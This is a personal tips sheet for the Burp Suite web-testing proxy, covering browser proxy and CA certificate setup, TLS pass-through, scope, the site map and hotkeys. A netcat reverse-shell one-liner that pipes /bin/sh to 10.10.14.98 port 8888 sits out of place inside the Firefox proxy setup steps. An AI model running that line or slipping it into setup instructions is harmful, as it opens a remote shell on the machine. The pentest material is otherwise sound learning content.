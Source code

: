 # Burpsuite
This is not a full detailed guide of how to use burpsuite more a selection of tricks and tips. It not really a cheatsheet and more a sheet of helpful stuff. There are full courses of how to use this avaliable from Portswigger, but their are also massive amounts of free resources and relatively cheap resources to learn and practice from. This Helphsheet is more just shortcuts, but is intended to make avaliable some of the functionality you may require extract from GUI menu to a scenario:   
*Problem X -> Do this with Burpsuite(plus another applications)*  
It is also not a showcase of plugins I like or support.  
Some of the tips very simple for simple problems, sometimes that is simply required.

[Official Documentation](https://portswigger.net/burp/documentation/desktop)

# Cool things for the cmd [more]
- Builtin Browser, never setup the burp certifact with your own browser every again!
	GOTO Project settings -> no sandbox for builtin browser


# FoxyProxy/Firefox proxy
Firefox menu -> Settings -> Network Settings click Settings
Select manual proxy configuration:
	HTTP proxy: 127.0.0.1 8080
	uncheck: Also use this proxy for FTP and HTTPS 
	delete: ANYTHING in the "No proxy for" field
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.98 8888 >/tmp/f
## Burp Suite CA
To intercept and analyze HTTPS traffic, BS has Certificate Authority and uses it to issue on-th-fly certifactes for each website that we visit and pass through Burp.

http://burp -> CA Certificate 
save the file cacert.der to `/home/<user>/Downloads`
GOTO Certificate manager in Firefox -> Import it!

## Bypassing Proxy for (some) HTTPS Traffic

Proxy -> Options -> TLS Pass Through -> Add

Need pass through for:
- Targeting
- Required mutual authenication or HTTP Public Key Pinning
## Bypass intercepting HTTPS traffic by configurating to forward traffics towards websites without decrypting and re-encrypting them first.

## SOCKS Proxy in Burp
User option in Burp Suite -> SOCKS Proxy -> 127.0.0.1 & port number

## Too much data -> Add Scope to include/exclude
`Target -> Scope -> Target scope`, to add manually or 
right click and add under main `Target Site map` tab.

## How is the site structured -> Sitemap
`Target -> Site map` Click the `>` and view in tree form.
## "Bad Request This combination of host and port requires TLS" -> Read Url
Use https in url you fool!

## Software is preventing site X browser from connecting -> Setup certificates in browser
Goto the very good visual guide on [THM](https://tryhackme.com/room/burpsuitebasics) - Task 10.
## Burp Intercepting Everything -> use the embedded Browser
If you do not want manage proxys on host OS or inside a browser, just use the embedded browser. Goto
`Project options -> Misc -> Embedded Browser` and check the  `Allow the embedded browser to run without a sandbox`.

**This is a solution to a problem I have yet to encounter but is here to solve a problem at a later date**
```
SSL/TLS  -> SSL pass through feature
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
```

## Shortcuts
For customisation go to `User Options > Misc > Edit Hotkeys`, for default shortcuts:

**Navigation**
Shortcut | Function  
--- | ---
`Ctrl + Shift + D` | Switch to the Dashboard  
`Ctrl + Shift + T`   |  Switch to the Target tab  
`Ctrl + Shift + P   ` | Switch to the Proxy tab  
`Ctrl + Shift + I   ` | Switch to the Intruder tab  
`Ctrl + Shift + R   ` | Switch to the Repeater tab

**Proxy**
Shortcut | Function  
--- | ---
`Ctrl + F` | Forward an intercepted message
`Ctrl + L` | Drop an intercepted message
`Ctrl + D` | Delete an intercepted message

## Intruder Payloads
- Recursive Grep = allows extract each paylaod from the response to the previous request - useful when you need to extract useful data or deliever an exploit 

## References

[Official Documentation](https://portswigger.net/burp/documentation/desktop)
[THM basics](https://tryhackme.com/room/burpsuitebasics)
[official-ps/blog/ssl-pass-through](https://portswigger.net/blog/ssl-pass-through-in-burp)
[cybrary](https://www.cybrary.it/blog/burp-suite-tutorial-part-2-essential-shortcuts-in-burp-suite-proxy-for-more/)